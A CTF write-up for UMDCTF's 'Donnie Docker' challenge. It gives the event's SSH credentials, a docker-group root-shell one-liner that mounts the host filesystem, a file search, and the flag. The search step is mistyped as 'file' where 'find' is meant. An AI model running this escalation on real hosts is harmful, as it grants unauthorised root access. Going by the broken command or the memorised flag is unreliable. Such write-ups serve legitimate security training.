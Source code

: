 # Donnie Docker | Forensics

### Solution

From ctf description we have got credentials to ssh connection:
> `ssh user@chals2.umdctf.io -p 5000` <br>
> password: `umdctf`

After successful login with given credentials, I saw docker machine.<br>
Firstly I checked where I am ( **pwd** command) and to which groups I belong ( **id** command).<br>

> `uid=1000(user) gid=1000(user) groups=1000(user),999(docker)`

I saw that I belong to **docker** group, so I follow this lead.
I assume If I am in this group I probably could use docker commands.
From previous ctf's I known some cool [website](https://gtfobins.github.io/gtfobins/docker/#shell)
where I found how to get root shell with privileges to run docker

> `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Running command above resulted with root account that gives me access to everything inside docker container.
Now I have to find file with flag.
> `file / -name *.txt 2>/dev/null`

This command listed all files with .txt extension, which gives me some garbage and three **flag.txt** files:

> `/var/lib/docker/vfs/dir/c53fadd9c7a3f33d711b573de585b367e45d6a4de64e677ab8ffc1bf6112fbff/flag.txt`
> `/var/lib/docker/vfs/dir/c53fadd9c7a3f33d711b573de585b367e45d6a4de64e677ab8ffc1bf6112fbff-init/flag.txt`
> `/var/lib/docker/vfs/dir/9a2432327f4d149162a06da63a797e0b88a8c2bccac598f262ebb6d073b9ecda/flag.txt`

### Flag

UMDCTF-{h1dd3n_1m@g35}

#### Credits

- Writeup by [HuntClauss](https://ctftime.org/user/106464)
- Solved by [HuntClauss](https://ctftime.org/user/106464)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + HuntClauss
